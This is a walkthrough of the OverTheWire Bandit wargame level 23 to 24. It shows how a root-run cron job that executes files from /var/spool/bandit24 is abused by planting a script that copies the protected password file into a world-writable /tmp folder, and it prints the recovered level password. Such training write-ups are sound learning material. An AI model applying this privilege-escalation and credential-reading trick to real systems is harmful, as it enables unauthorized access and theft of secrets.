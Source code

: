 # BANDIT LEVEL 23 --> LEVEL 24

```
http://overthewire.org/wargames/bandit/bandit24.html
```

### Level Goal

A program is running automatically at regular intervals from cron, the time-based job
scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being
executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step
and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to
keep a copy around…

### Commands you may need to solve this level

```
cron, crontab, crontab(5) (use “man 5 crontab” to access this)
```

### SOLUTION

```
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
    echo "Handling $i"
    timeout -s 9 60 ./$i
    rm -f ./$i
    fi
done
bandit23@bandit:~$ ls -l /var/spool/bandit24/
ls: cannot open directory '/var/spool/bandit24/': Permission denied
```

Okay, so we see that there is a cron job that will execute all scripts within
`/var/spool/bandit24` every minute and then delete them. We ultimately want to dump
the contents of `/etc/bandit_pass/bandit24` which we don't have permission to do as
ourselves..

```
bandit23@bandit:~$ mkdir /tmp/mytemp
bandit23@bandit:/tmp/mytemp$ chmod 777 /tmp/mytemp
bandit23@bandit:/tmp/mytemp$ ls -ld /tmp/mytemp
drwxrwxrwx 2 bandit23 root 4096 Oct 24 01:30 /tmp/mytemp
bandit23@bandit:~$ cat /tmp/mytemp/bandit24_passwd.sh
#! /bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/mytemp/bandit_pass.out
bandit23@bandit:~$ chmod +x /tmp/mytemp/bandit24_passwd.sh
bandit23@bandit:~$ cp /tmp/mytemp/bandit24_passwd.sh /var/spool/bandit24/bandit24_passwd.sh
```

And now we wait..

```
bandit23@bandit:/tmp/mytemp$ date
Wed Oct 24 01:33:09 CEST 2018
bandit23@bandit:/tmp/mytemp$ date
Wed Oct 24 01:34:12 CEST 2018
bandit23@bandit:/tmp/mytemp$ cat bandit_pass.out
attempting to read /etc/bandit_pass/bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
